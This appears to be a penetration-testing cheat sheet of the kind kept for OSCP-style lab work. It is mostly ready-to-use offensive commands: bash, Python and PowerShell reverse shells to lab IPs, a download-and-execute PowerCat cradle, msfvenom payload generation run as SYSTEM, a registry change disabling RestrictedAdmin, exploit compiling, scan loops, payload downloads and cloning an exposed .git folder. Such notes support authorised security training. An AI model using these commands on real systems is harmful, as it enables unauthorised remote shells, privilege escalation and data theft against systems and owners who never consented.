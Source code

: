 | **Reverse shells**                                                                                                                                     | **Description**                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`                                                                                                          | Common reverse shell                            |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`                                                                                                | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell                            |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`            | Powershell reverse shell with PowerCat          |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

When we are admin but cannot execute commands as nt authority\\system we can use this two powershell scripts (**[Invoke-CommandAs](https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1) and **[Invoke-ScheduledTask.ps1](https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1)**)
```shell
*Evil-WinRM* PS C:\> Import-Module .\Invoke-CommandAs.ps1
*Evil-WinRM* PS C:\> Import-Module .\Invoke-ScheduledTask.ps1
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {whoami} -AsSystem
	nt authority\system
```
We can create a msfvenom exe payload and catch the shell with a meterpreter session
```shell
kali # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.204 LPORT=443 -f exe -o shell.exe
----
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {C:\Users\Administrator\Documents\shell.exe} -AsSystem
----
msf6 exploit(multi/handler) > run
[*] Command shell session 1 opened (192.168.45.204:443 -> 192.168.222.147:60443) at 2024-02-29 13:46:59 +0100
```

When xfreerdp admin doesn't work
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PS - Enable terminal color (for WinPeas for example)
```shell
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```

| Enumerating                                                                                                                                                                                                                                                                                                 | **Description**                  |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done`                                                                                                                                                                          | Quick scan from scope file       |
| `mkdir nmap`<br>`for i in $(cat scope.txt); do sudo nmap -p- --min-rate=10000 --open $i -oG nmap/$i; done`<br>`cd nmap`<br>`for i in $(ls \| grep -v '.nmap'); do extractPorts $i; export clipboard_content=`xclip -o -selection clipboard`; nmap -p $clipboard_content -sCV -A -T4 $i -oN "$i.nmap"; done` | Script to process scope.txt file |

**Phising:** Refer to PEN-200 content, 24.3.2 module and use swaks

#### Git repository leaked
If we face a website which has its .git folder uploaded, we can download the content with wget and look for some info in commits
```bash
wget -r https://www.port-local-delivery.com/.git
cd website-content
git show
```

